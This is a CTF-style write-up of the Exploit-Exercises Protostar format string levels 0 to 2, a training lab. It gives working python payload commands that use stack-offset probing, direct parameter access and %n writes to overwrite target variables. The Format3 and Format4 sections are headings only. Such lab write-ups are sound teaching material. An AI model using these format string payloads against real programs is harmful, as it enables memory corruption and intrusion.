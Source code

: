 # Exploit-Exercises Protostar Writeup - Format

## Before Start
If you don't have much experience in Format String Attack, I recommend you to go through the following reading materials.      
[Format String Attack](https://www.owasp.org/index.php/Format_string_attack)    
[Stanford CS115 Paper About Format String Vulnerabilities](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)        
[An Abstract Version](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)

## [Format0](https://exploit-exercises.com/protostar/format0/)
This one can be done with stack overflow. ```./format0 $(python -c "print 'A'*64+'\xef\xbe\xad\xde'")```.     
But.. No! We should exploit format string vulnerabilities in this level. The hint says "This level should be done in less than 10 bytes of input".    
Looking at the source code, ```sprintf(buffer, string);``` will write formated string data to the buffer. So what we gonna do is to make the string 68 bytes long with "0xdeadbeef" at the end.    
The command is: ```./format0 $(python -c "print '%64s'+'\xef\xbe\xad\xde'")```   
![format0_1](./images/format0_1.png)    


## [Format1](https://exploit-exercises.com/protostar/format1/)
This challenge is an exploitation through pure format strings (3.4.2 in the Stanford's paper).    
First, we run ```objdump -t```. Now we can see the address of variable "target" is _0x08049638_. This is our target address to overwrite on.      
[!format1_1](./images/format1_1.png)    
Next, we should find out how many bytes between current position and our input string. Then we can fill the exact number of "%x" to move the pointer to our input string. We will input a bunch of "A" with enough "%x" to partially dump the stack. We can modify the number of "%x" to make it loacte exactly before the first "A".       
Try ```./format1 $(python -c 'print "A"*16+"%x."*100')```, and didn't find the "4141414141". So I modified 100 to 200. Now I did see the bunch of "A"s. 
[!format1_2](./images/format1_2.png)    
Now modify the number to make it locate at first "A".     
[!format1_3](./images/format1_3.png)     
You will find the offset may also be changed with the length of our payload. So I would like to recommand using __Direct Parameter Access__(4.3). This technique make us to uses the ```$``` to directly access a parameter by giving the location. With DPA, we can change the length of "%x" without changing the length of our input string. It can efficiently benefit our exploitation.
[!format1_4](./images/format1_4.png)
The final step is just substitute "$08x" with "$08n". The command is:     
```./format1 $(python -c 'print "\x38\x96\x04\x08"+"_BB"+"%129$08n"')```    
[!format1_5](./images/format1_5.png)
The ```%n``` will write the number of bytes written so far to the given address. It is sure to be greater than 0, so we can hit the success brach. 
    


## [Format2](https://exploit-exercises.com/protostar/format2/)
This level can be solved with the same idea of previous one. The differences are that we have to modify target to a specific value and provide our input through standard input instead of parameter.      
First, we still use ```objdump -t format2 | grep target``` to get the address of target, which is _0x080496e4_ in this case.      
Then, we try to locate our input string. The buffer is in the same frame of the function. So it should be not far away from the current pointer.     
[!format2_1](./images/format2_1.png)    
The buffer has a fixed size, which means that the offset should be fixed when the length of our input changed.      
Now we already locate the string, the only thing left is to get our input having the correct length before ```%n```. To make our string more compact, I used ```%xu``` before "%n" to control the length.    
```python -c 'print "\xe4\x96\x04\x08_%30u"+"%4$n"' | ./format2```
[!format2_2](./images/format2_2.png)
We didn't get the correct value, but we can know that we just succesfully write an arbitary data into the target. We are not far away from success. Just modify the padding of ```%u```.     
```python -c 'print "\xe4\x96\x04\x08_%59u"+"%4$n"' | ./format2```    
[!format2_3](./images/format2_3.png)
Done!!     



## [Format3](https://exploit-exercises.com/protostar/format3/)
## [Format4](https://exploit-exercises.com/protostar/format4/)
